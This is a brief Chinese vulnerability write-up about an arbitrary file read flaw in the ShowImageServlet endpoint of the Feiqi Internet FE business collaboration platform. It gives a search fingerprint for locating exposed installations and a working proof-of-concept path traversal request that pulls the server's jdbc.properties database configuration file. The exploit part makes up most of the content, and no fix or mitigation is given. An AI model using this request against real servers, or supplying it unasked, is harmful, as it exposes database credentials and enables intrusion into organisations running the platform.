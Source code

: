 # 飞企互联 FE业务协作平台 ShowImageServlet 任意文件读取漏洞

## 漏洞描述

飞企互联 FE业务协作平台 ShowImageServlet 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中敏感文件

## 漏洞影响

飞企互联 FE业务协作平台

## 网络测绘

```
"flyrise.stopBackspace.js"
```

## 漏洞复现

登陆页面

![image-20230828145057107](images/image-20230828145057107.png)

验证POC

```
/servlet/ShowImageServlet?imagePath=../web/fe.war/WEB-INF/classes/jdbc.properties&print
```

![image-20230828145109229](images/image-20230828145109229.png)